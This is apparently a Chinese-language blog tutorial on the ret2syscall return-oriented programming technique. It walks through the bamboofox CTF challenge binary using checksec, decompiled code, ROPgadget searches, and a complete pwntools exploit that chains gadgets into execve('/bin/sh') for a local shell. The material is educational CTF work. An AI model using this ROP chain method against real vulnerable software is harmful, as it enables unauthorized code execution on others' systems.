 # Pwn-ROP-ret2systemcall


# 原理

re to syscall，就是通过调用系统函数以达到getshell的目的。具体的说，让程序调用execve("/bin/sh",0,0)从而getshell的过程。

# 步骤

必要条件：

+ eax = 0xb
+ ebx指向/bin/sh字符串的地址
+ ecx = 0
+ edx = 0
+ 最后需要执行int 0x80终端达到execve("/bin/sh",0,0)的目的

如何实现呢？

我们知道，如果栈存在溢出，我们几乎存在整个栈的数据修改权。而为了修改寄存器的值，并且是利用栈修改寄存器的值。那么只有pop命令可以做到这件事情了。于是，我们利用pop后面接ret的函数段（gadget），对寄存器进行修改，并且实现连续跳转（ret）。

# 实例

这里我们以 bamboofox 中的 ret2syscall 为例

点击下载: [ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

首先检测程序开启的保护

```
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，源程序为 32 位，开启了 NX 保护。接下来利用 IDA 来查看源码

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得 v4 相对于 ebp 的偏移为 108。所以我们需要覆盖的返回地址相对于 v4 的偏移为 112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用。关于系统调用的知识，请参考

- [https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8](https://zh.wikipedia.org/wiki/系统调用)

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell

```
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets 的方法，我们可以使用 ropgadgets 这个工具。

首先，我们来寻找控制 eax 的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

可以看到有上述几个都可以控制 eax，我选取第二个来作为 gadgets。

类似的，我们可以得到控制其它寄存器的 gadgets

```
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```

这里，我选择

```
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
```

这个可以直接控制其它三个寄存器。

此外，我们需要获得 /bin/sh 字符串对应的地址。

```
➜  ret2syscall ROPgadget --binary rop  --string '/bin/sh' 
Strings information
============================================================
0x080be408 : /bin/sh
```

可以找到对应的地址，此外，还有 int 0x80 的地址，如下

```
➜  ret2syscall ROPgadget --binary rop  --only 'int'                 
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc

Unique gadgets found: 4
```

同时，也找到对应的地址了。

下面就是对应的 payload，其中 0xb 为 execve 对应的系统调用号。

```
from pwn import *

context(arch = 'i386', os = 'linux')
r = process("./rop") 

pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
bin_sh_string = 0x080BE408
int_0x80 = 0x08049421

offset = 112

payload = b'a' * offset
payload += p32(pop_eax_ret) + p32(0xb)
payload += p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(bin_sh_string)
payload += p32(int_0x80)

r.sendline(payload)
print(r.recvall())
r.interactive()
```



---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/09/pwn-rop-ret2systemcall/  


